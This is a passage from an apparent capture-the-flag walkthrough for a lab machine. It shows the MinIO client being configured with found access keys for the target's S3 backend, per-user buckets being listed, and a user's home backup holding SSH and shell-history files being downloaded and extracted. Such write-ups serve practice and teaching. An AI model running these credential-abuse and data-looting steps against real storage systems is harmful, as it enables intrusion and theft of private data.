 ```bash
  }
}
```

## MinIO (Cloud)

MinIO CLI tool can be used to use the cloud via terminal: [https://github.com/minio/mc](https://github.com/minio/mc)
`alias set` docs: [https://min.io/docs/minio/linux/reference/minio-mc/mc-alias-set.html](https://min.io/docs/minio/linux/reference/minio-mc/mc-alias-set.html)
```bash
└─$ ./mc alias set test02 http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0
Added `test02` successfully.
```

List buckets
```bash
└─$ ./mc ls test02/
[2023-11-07 23:59:15 EST]     0B askyy/
[2023-11-07 23:58:56 EST]     0B btanner/
[2023-11-07 23:58:33 EST]     0B emoneypenny/
[2023-11-07 23:58:22 EST]     0B gmallory/
[2023-11-07 19:08:01 EST]     0B guest/
[2023-11-07 23:59:05 EST]     0B jbond/
[2023-11-07 23:58:10 EST]     0B omansfield/
[2023-11-07 23:58:45 EST]     0B rsilva/
└─$ ./mc tree -f test02/
test02/
├─ askyy
│  ├─ Welcome.pdf
│  └─ home_backup.tar.gz
├─ btanner
│  └─ Welcome.pdf
├─ emoneypenny
│  └─ Welcome.pdf
├─ gmallory
│  └─ Welcome.pdf
├─ guest
│  ├─ 0:5005
│  └─ Welcome.pdf
├─ jbond
│  └─ Welcome.pdf
├─ omansfield
│  └─ Welcome.pdf
└─ rsilva
   └─ Welcome.pdf
```

Download the backup
```bash
└─$ ./mc get test02/askyy/home_backup.tar.gz ./home_backup.tgz
└─$ tar -xvzf home_backup.tgz
./
./.profile
./.bashrc
./.ssh/
./.ssh/authorized_keys
./.sudo_as_admin_successful
./.bash_history
./.bash_logout
./.cache/
./.cache/motd.legal-displayed
```
